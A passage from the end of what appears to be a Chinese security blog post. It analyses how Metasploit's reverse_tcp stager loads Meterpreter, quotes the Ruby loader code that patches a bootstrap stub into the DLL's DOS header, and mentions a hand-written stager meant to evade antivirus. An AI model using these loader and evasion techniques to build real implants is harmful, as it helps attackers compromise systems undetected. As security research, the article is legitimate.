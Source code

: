 ```c
asm = asm_invoke_metsrv(asm_opts)//返回了上面asm_invoke_metsrv函数中的汇编 
# generate the bootstrap asm 
bootstrap = Metasm::Shellcode.assemble(Metasm::X86.new, asm).encode_string//生成引导代码 
# sanity check bootstrap length to ensure we dont overwrite the DOS headers e_lfanew entry 
if bootstrap.length > 62 
    raise RuntimeError, "Meterpreter loader (x86) generated an oversized bootstrap!" 
end 

# patch the bootstrap code into the dll's DOS header... 

dll[ 0, bootstrap.length ] = bootstrap//替换原有的dos头
```

主要是生成了一段bootstrap(引导代码)，接着在12行使用生成的引导代码替换掉了stages的dos头。

## 手写Stager替代shellcode

上面已经把msfvenom生成的shellcode干了什么给搞清楚了，现在咱们来手写一个Stager，这样也是有一定的免杀效果的，因为在我们编写的Stager中是没有shellcode存在。

[文章链接](https://forum.butian.net/share/1614)

## 总结

文章主要通过分析metasploit代码与流量分析，解释了metasploit中reverse\_Tcp的shellcode的上线过程，接着用c语言实现了一个stager，文章内容比较基础，而且难免会有错误，请各位师傅斧正。如果有不清楚的地方欢迎私信骚扰。

## 参考

-   [https://github.com/rapid7/metasploit-payloads](https://github.com/rapid7/metasploit-payloads) rapid7公开的metasploit的载荷源码
-   [https://github.com/rapid7/ReflectiveDLLInjection](https://github.com/rapid7/ReflectiveDLLInjection) 反射式dll注入
-   [https://github.com/stephenfewer/ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)
-   [https://bbs.kanxue.com/thread-247616.htm](https://bbs.kanxue.com/thread-247616.htm)
-   [https://www.cnblogs.com/Akkuman/p/12859091.html](https://www.cnblogs.com/Akkuman/p/12859091.html)
-   [https://xz.aliyun.com/t/1709](https://xz.aliyun.com/t/1709)

